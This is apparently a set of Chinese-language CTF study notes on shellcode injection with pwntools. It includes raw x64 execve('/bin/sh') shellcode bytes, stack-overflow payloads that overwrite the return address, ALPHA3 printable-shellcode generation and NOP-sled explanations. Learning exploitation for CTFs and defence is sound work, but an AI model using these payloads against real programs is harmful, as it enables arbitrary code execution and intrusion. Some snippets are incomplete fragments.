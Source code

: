 ```python
shellcode = asm(shellcraft.sh())

#32位短shellcode
#64位短shellcode
shellcode_x641="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
shellcode_x642="\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"


```

exp：写入buf（可执行区域）内，然后去到对应的位置。

```python
#可以指定架构然shellcode更加准确
#ljust向shellcode的尾部填充一定长度的字节，使我们写shellcode和实现控制返回地址，在一步之中完成
#如：
from pwn import *
context.arch = 'amd64'
shellcode = asm(shellcraft.amd64.sh())
buf_addr = 0x10
payload = shellcode.ljust(0x18,b'a') + p64(0x10)
p.interactive()
```



## 注意事项

**leave:**  
leave的作用相当于MOV SP,BP；POP BP。
因为leave指令会释放栈空间，因此我们不能使用目标地址后面的24字节。
目标地址后的8个字节也不能存放（这里需要存放返回地址）。故我们的shellcode只能 放在目标首地址后的 24+8后的地址。

例如：溢出垃圾数据 +（可执行目标地址+32）+ shellcode

```python
payload = cyclic(0x10+8) + p64(v5 + 24+8) + shellcode
```

**mmap： ** 

buf = mmap(0, 0x400u, 7, 34, 0, 0); ：这行代码使用 mmap 函数分配一块内存区域，将其起 始地址保存在变量 buf 中。
此时在buf中的shellcode仍然可以执行。

**输入字符限定：**

对于shellcode进行字符筛选，我们只能使用有限的字符进行shellcode编写

使用pwntools生成一个shellcode，没法直接输出，有乱码，将shellcode重定向到一个文件中 切换 到alpha3目录中，使用alpha3生成string.printable 。string.printable，就是可见字符shellcode。

```
cd alpha3
python ./ALPHA3.py x64 ascii mixedcase rax --input="存储shellcode的文件" > 输出
文件
#存在检查：
shellcode = '\x00\xc0'  + asm(shellcraft.sh()) 
```

**nop sled:**

nop sled 是一种可以破解栈随机化的缓冲区溢出攻击方式。
攻击者通过输入字符串注入攻击代码。在实际的攻击代码前注入很长的 nop 指令 （无操作，仅使程 序计数器加一）序列， 只要程序的控制流指向该序列任意一处，程序计数器逐步加一，直到到达攻击代码的存在的地址， 并执行。

将 shellcode 填充为以 nop ( 0x90 ) 指令开头进行滑栈。